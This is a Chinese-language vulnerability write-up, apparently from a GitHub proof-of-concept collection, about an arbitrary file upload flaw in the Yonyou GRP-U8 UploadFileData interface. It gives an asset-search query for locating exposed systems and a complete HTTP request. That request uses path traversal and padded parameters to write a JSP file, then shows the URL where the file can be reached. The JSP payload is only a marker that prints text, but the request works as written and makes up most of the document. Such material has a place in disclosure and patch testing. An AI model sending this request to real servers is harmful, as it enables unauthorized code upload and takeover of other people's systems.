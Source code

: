 # 

# 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
用友 GRP-U8
```

## 网络测绘

```
app="用友-GRP-U8"
```

## 漏洞复现

登录页面

![image-20220824142321531](./images/202208241423596.png)

验证POC

```
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![image-20220824142335805](./images/202208241423854.png)

访问写入的文件

```
/R9iPortal/debugg.jsp
```

![image-20220824142350845](./images/202208241423890.png)
